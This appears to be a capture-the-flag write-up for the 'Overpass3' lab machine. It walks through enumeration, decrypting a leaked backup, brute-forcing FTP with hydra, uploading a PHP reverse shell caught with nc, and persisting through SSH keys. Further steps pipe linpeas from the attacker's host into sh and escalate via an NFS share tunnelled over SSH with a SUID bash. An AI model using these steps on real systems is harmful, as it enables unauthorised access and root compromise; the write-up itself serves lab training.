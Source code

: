 Overpass3 Writeup


# Enumeration

First we start a nmap scan and a gobuster scan as always and start exploring manually the webpage.

The Webpage itself looks a bit empty and static but we find a few possible Usernames:

[![https://imgur.com/OQ86bnA.png](https://imgur.com/OQ86bnA.png)](https://imgur.com/OQ86bnA.png)

We also found a /backups endpoint through our gobusterscan.

Visiting that page http://ip/backups give us the option to download the backup.zip

[![https://imgur.com/jPMhQKN.png](https://imgur.com/jPMhQKN.png)](https://imgur.com/jPMhQKN.png)

After downloading and unzipping the file we get two new files:

[![https://imgur.com/0vbx7Ob.png](https://imgur.com/0vbx7Ob.png)](https://imgur.com/0vbx7Ob.png)

one of them is a PGP(Pretty Good Privacy) Key and the other one is a protected excel file which we need to open with our PGP key.

After researching abit i found that we can import the key with gpg:

gpg --import priv.key

and then use it to open the file:

gpg CustomerDetails.xlsx.gpg

now after renaming CustomerDetails.xlsx to CustomerDetails we have a folder with files we can search through.

One of the files is called sharedStrings.xml where we find a list of Credentials.

But where do we login? We didn't find any login through gobuster so lets check the services we found on nmap.

[![https://imgur.com/tN09AUl.png](https://imgur.com/tN09AUl.png)](https://imgur.com/tN09AUl.png)

We have an ssh and an FTP service.

I created short wordlists out of the credentials we found to automate trying to loginto the services and now we can use hydra to give us a hand for executing the login.

The command for hydra is the following:

[![https://imgur.com/7m8lubp.png](https://imgur.com/7m8lubp.png)](https://imgur.com/7m8lubp.png)

(If you want to replace the ip like in the image above you can: sudo vim /etc/hosts and a line: ip overpass3)

We can already see that SSH wont work with out a private rsa key.

So lets try ftp.

Success!

[![https://imgur.com/DzdnfOz.png](https://imgur.com/DzdnfOz.png)](https://imgur.com/DzdnfOz.png)

We can now loginto FTP!

[![https://imgur.com/GZzNLB5.png](https://imgur.com/GZzNLB5.png)](https://imgur.com/GZzNLB5.png)

After testing that we can upload files:

[![https://imgur.com/1uxQlRt.png](https://imgur.com/1uxQlRt.png)](https://imgur.com/1uxQlRt.png)

We can now create a folder upload our reverseshell and then call the endpoint where the file is stored to activate the reverseshell.
(Get a reverseshell on https://github.com/pentestmonkey/php-reverse-shell and dont forget to change the ip and port)

[![https://imgur.com/s2NQwJR.png](https://imgur.com/s2NQwJR.png)](https://imgur.com/s2NQwJR.png)

We also need to start a nc listener:

sudo nc -lvnp port

To activate the shell we can curl the place where its stored:

curl http://overpass3/shell/phprev.php

And we are in! 

[![https://imgur.com/F2x8fh9.png](https://imgur.com/F2x8fh9.png)](https://imgur.com/F2x8fh9.png)

## Persistence

If we navigate to the /home directory we can see that there are two users:
James and Paradox.
For Paradox we know the password so lets switch to that user:

[![https://imgur.com/4SCpOba.png](https://imgur.com/4SCpOba.png)](https://imgur.com/4SCpOba.png)

In his homedirectory (~) we can see a .ssh folder so lets put our public key in authorizedkeys to get a better shell and persistance.

[![https://imgur.com/Tgsi0S5.png](https://imgur.com/Tgsi0S5.png)](https://imgur.com/Tgsi0S5.png)

Now we can use our private id_rsa key to loginto SSH:

[![https://imgur.com/l7yN2dj.png](https://imgur.com/l7yN2dj.png)](https://imgur.com/l7yN2dj.png)


## Privilege Escalation

Lets find out what we can execute and how we can escalate our privileges.

First we create a simple http.server on our hostmachine:

python3 -m http.server

i already have linpeas if you need to downloaded it do it here: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

and on the target machine go into the /tmp directory:

curl http://your_THM_IP/linpeas.sh | sh

we found a option root_squash for nfs so we could try to ssh tunnel into that service.

[![https://imgur.com/364hbdt.png](https://imgur.com/364hbdt.png)](https://imgur.com/364hbdt.png)

We are logged into ssh as paradox and we want to get access to the james user.

[![https://imgur.com/vjgiKIG.png](https://imgur.com/vjgiKIG.png)](https://imgur.com/vjgiKIG.png)

We see that the folder of james is shared /home/james.

So we can mount it as paradox and then access the content, right?

No, :( because we ain't root.

So we need a way to mount as root.. Where do we have root access? On our own machine! 

So we find the port that the service is running on, normally we would do that with netstat but since its not available we run rpcinfo.

[![https://imgur.com/yQwrJH0.png](https://imgur.com/yQwrJH0.png)](https://imgur.com/yQwrJH0.png)

We can see on which port nfs is running: 2049.

Now since we have access to paradox with ssh we can PORTFORWARD.

ssh paradox@10.10.185.59 -i paradox -L 2049:localhost:2049

[![https://imgur.com/WJ5ae58.png](https://imgur.com/WJ5ae58.png)](https://imgur.com/WJ5ae58.png)

that means we can send our mount command from our host machine ( where we cant access the port 2049 of the target because its locally ) through the ssh port 22 where we have access to and then locally we can access again the port 2049 and since we have root privileges on our host we can mount the folder.

[![https://imgur.com/zk99jhr.png](https://imgur.com/zk99jhr.png)](https://imgur.com/zk99jhr.png)

We successfully mounted through an SSH-Tunnel :) 

Lets see what we find in the share.

A user flag! 

[![https://imgur.com/jU8g4fA.png](https://imgur.com/jU8g4fA.png)](https://imgur.com/jU8g4fA.png)

And ssh credentials from james !

[![https://imgur.com/0uV8IsI.png](https://imgur.com/0uV8IsI.png)](https://imgur.com/0uV8IsI.png)

Lets loginto his account with ssh.

[![https://imgur.com/ZayPFoa.png](https://imgur.com/ZayPFoa.png)](https://imgur.com/ZayPFoa.png)

Now we can copy a binary, give it SUID privileges from our HOST since we are root there.

So we can cp /bin/bash .
The shared directory as James.

[![https://imgur.com/tpqioux.png](https://imgur.com/tpqioux.png)](https://imgur.com/tpqioux.png)

And then we can execute it with the flag -p so the set permission is not reset.

[![https://imgur.com/gzXSQgw.png](https://imgur.com/gzXSQgw.png)](https://imgur.com/gzXSQgw.png)

Give it root privilege.

[![https://imgur.com/Jn8FPH7.png](https://imgur.com/Jn8FPH7.png)](https://imgur.com/Jn8FPH7.png)

Execute it.

[![https://imgur.com/wSQ3NVf.png](https://imgur.com/wSQ3NVf.png)](https://imgur.com/wSQ3NVf.png)

We made it! 

[![Celebration](https://media.giphy.com/media/3FQ1YRBV0TnTi6eG4g/giphy.gif)

